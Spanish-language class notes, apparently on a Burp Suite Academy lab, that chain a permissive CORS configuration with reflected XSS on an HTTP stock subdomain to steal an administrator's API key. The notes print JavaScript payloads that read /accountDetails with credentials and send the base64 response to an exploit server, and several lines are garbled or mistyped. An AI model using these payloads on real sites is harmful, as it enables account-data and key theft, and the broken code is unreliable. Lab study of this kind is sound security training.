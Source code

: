 En esta clase continuamos con la explotación del laboratorio anterior, donde la configuración CORS del servidor acepta solicitudes desde cualquier subdominio, incluso si estas provienen de un origen no seguro (HTTP).

Profundizamos en cómo aprovechar una vulnerabilidad de XSS reflejado en un subdominio que opera sobre HTTP, lo cual nos permite inyectar y ejecutar un script malicioso. Dicho script accede al endpoint sensible de la cuenta del administrador y, gracias a la configuración permisiva del servidor, la clave API es expuesta. Este valor es redirigido al servidor de explotación para completar con éxito el laboratorio.

----


Vemos la peticion hacia AccounDetails

    Origin: test.com
    Origin: null

Si probamos con subdominios tambien funciona

    Origin: https://test.burpsuite-lab.net

ahora debemos de buscar alguna seccion donde haya subdominios, en los productos, hay una seccion de stock

```javascript

<script>
    var req = new XMLHttpRequest();
    req.onload = function(){
        location = 'https://exploit-server/?apikey= '' + btoa(req.responseText);
    };
    req.open('GET','https://burpsuite/accountDetails',true);
    req.withCredentials = true;
    req.send();
</script>
```

Hay un apartado donde hay un subdominio, junto con un XSS, y desde alli forzamos al usuario a que accione correctamente el CORS

```javascript
<script>
    document.location = "http://stock.burpsiote.com/?productId=1&store=1";
    document.location = "http://stock.burpsiote.com/?productId=<XSS>&store=1";>
    document.location = "http://stock.burpsiote.com/?productId=<script>
    var req = new XMLHttpRequest();
    req.onload = function(){
        location = 'https://exploit-server/?apikey= '' + btoa(req.responseText);
    };
    req.open('GET','https://burpsuite/accountDetails',true);
    req.withCredentials = true;
    req.send();
</script>&store=1";>
</script>


```

URLencodear el caracter "+" %2b
